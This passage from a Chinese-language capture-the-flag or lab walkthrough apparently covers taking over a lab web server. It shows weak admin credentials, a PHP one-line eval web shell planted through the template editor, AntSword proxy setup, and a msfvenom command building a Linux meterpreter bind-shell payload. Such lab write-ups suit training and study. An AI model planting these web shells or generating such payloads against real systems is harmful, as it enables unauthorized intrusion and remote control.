 ![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-59.png)

后台账户密码admin ：123qwe



##### 登录后台

找到flag{eS3sd1IKarw}

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-60.png)

##### 写入shell

找到模板修改处，添加一句话。

```
<?php @eval($_POST[x]);?>  
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-61.png)

```shell
http://192.168.22.128/index.php?r=tag				#后门shell
```

访问

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-62.png)

##### 配置蚁剑代理

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-65.png)

![70-66](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-66.png)

##### 连接后门-拿到webshell

![70-63](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-63.png)

![70-64](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-64.png)

找到flag

flag{23ASfqwr4t2e}

如果攻击机是windows的话，还可以利用代理工具Proxifier或SocksCap64载入代理进行远程访问测试。

##### 生成正向后门

```shell
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=3333 -f elf > t2.elf
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-67.png)

##### 接收反弹
